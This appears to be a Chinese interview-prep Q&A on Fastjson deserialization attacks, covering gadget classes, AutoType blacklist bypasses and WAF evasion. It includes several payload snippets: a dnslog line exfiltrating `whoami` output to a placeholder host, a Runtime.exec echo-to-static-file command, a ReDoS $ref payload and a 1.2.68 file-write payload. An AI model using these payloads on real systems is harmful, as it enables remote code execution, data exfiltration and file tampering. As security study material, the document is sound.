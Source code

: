 # Fastjson

### 使用`JSON.parse()`和`JSON.parseObject()`的不同（★）[+]

前者会在JSON字符串中解析字符串获取`@type`指定的类，后者则会直接使用参数中的`class`，并且对应类中(符合规范的)所有`getter`和`setter`都会被调用



### 什么情况下反序列化过程会反射调用`getter`（★）[+]

符合`getter`规范的情况且不存在`setter`



### 如果不存在`setter`和`getter`方法可以反射设置值吗（★）[+]

需要服务端开启`Feature.SupportNonPublicFiel`参数，实战无用



### Fastjson在反序列化`byte[]`类型的属性时会做什么事情（★）[+]

将会在反序列化时进行`base64`编码



### 谈谈常见的几种Payload（★★★）[+]

首先是最常见的`JdbcRowSetImpl`利用`JNDI`注入方式触发，**需要出网**

利用`TemplatesImpl`类比较鸡肋，**需要服务端开启特殊参数**

不出网的利用方式有一种`BasicDataSource`配合`BCEL`可实现`RCE`

另外某个版本之后支持`$ref`的功能，也可以构造一些Payload



### 是否存在不出网的Fastjson利用方式（★★★）

第一种是`TemplatesImpl`类加载字节码做到不出网利用，但需要开启特殊参数(`Feature.SupportNonPublicField`)实战鸡肋. (分为命令执行和内存马)

- 如何让它有回显：

  - dnslog外带:	

    ```md
    `whoami`.xxxxxx.dnslog.cn
    ```

  - 静态资源写⽂件:

    假设已经知道⽹站路径，拼接路径为：

    ```md
    /root/java_vuln_code-master/src/main/resources/static/js/consoleinfo.js
    ```

    则命令参数这么写:

    ```java
    Runtime.getRuntime().exec("whoami >> /root/java_vuln_code-
    master/src/main/resources/static/js/consoleinfo.js");
    ```

    

第二种方式是服务端存在在`tomcat-dbcp.jar`情况下，使用`BasicDataSource`配合`BCEL`可实现不出网`RCE` (同样能通过此方式写内存马)	——[浅析FastJson不出网利用方式](https://forum.butian.net/share/2040)

​											

### 谈谈1.2.47版本之前各个小版本的绕过（★★★）[+]

首先是利用解析问题可以加括号或大写L绕过低版本，高版本利用了哈希黑名单，之所以要哈希是因为防止黑客进行分析。但黑名单还是被破解了，有师傅找到可以绕过了类。在1.2.47版本中利用缓存绕过



### Fastjson应该如何探测（★★）[+]

使用`dnslog`做检测是最常见的方式，利用`java.net.Inet[4][6]Address`或`java.net.InetSocketAddress`或`java.net.URL`类，之所以使用这三个因为不在黑名单中，可以直接检测

除了这种方式，还可以自行实现虚假的`JNDI Server`作为反连平台，用`JdbcRowSetImpl`这样的`Payload`来触发

如果不能出网，可以结合不出网的利用方式和中间件的回显手段，执行无害命令检测，或利用报错回显



### 谈谈1.2.68版本的绕过（★★）[+]

1.2.68之前的66和67可以利用`JNDI`相关类，比如`Shiro`的`JndiObjectFactory`和`ignite`项目的类

1.2.68中有一个期望类属性，实现了期望接口的类可以被反序列化

利用类必须是`expectClass`类的子类或实现类，并且不在黑名单中，即可直接绕过`AutoType`检测，例如常见的`AutoCloseable`

这样的Payload通常第一个`@type`是`AutoCloseable`等合法类，第二个`@type`是恶意类，后续参数是恶意类需要的参数



### 谈谈Fastjson的WAF Bypass手段（★★★）[+]

Fastjson默认会去除键值外的空格、\b、\n、\r、\f等字符，同时还会自动将键值进行`unicode`与十六进制解码

例如针对`@type`的绕过：`\u0040\u0074\u0079\u0070\u0065`

加入特殊字符的绕过：`{\n"@type":"com.sun.rowset.JdbcRowSetImpl"...}`



### 除了RCE还能有什么利用（★★★）

信息泄露或者ReDoS，参考下方Payload

```json
{
    "regex":{
        "$ref":"$[\blue = /\^[a-zA-Z]+(([a-zA-Z])?[a-zA-Z]*)*$/]"
    },
    "blue":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"
}
```

还可以实现写文件，例如以下这个针对1.2.68写文件的Payload

```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "java.io.FileOutputStream",
  "file": "/tmp/nonexist",
  "append": "false"
}
```



### 是否了解自动挖掘Fastjson利用链的方式（★★★★）

利用链主要集中在`getter`和`setter`方法中，如果`getter`或者`setter`的方法中存在一些危险操作比如`JNDI`查询，如果参数可控就可以导致`JNDI`注入

简单来说，直接搜对应项目中`JNDI`的`lookup`方法，可以基于`ASM`解压分析`Jar`包，这种半自动结合人工审核的方式其实很好用（之前挖到过几个）

进一步来说，全自动的方式可以使用`codeql`或`gadget-inspector`工具来做，主要是加入了污点传递，分析`getter/setter`参数如何传递到`lookup`

关于全自动分析原理，一般面试官不会问太深入，因为可能涉及到静态分析相关的技术，如果是实验室可能需要进一步学习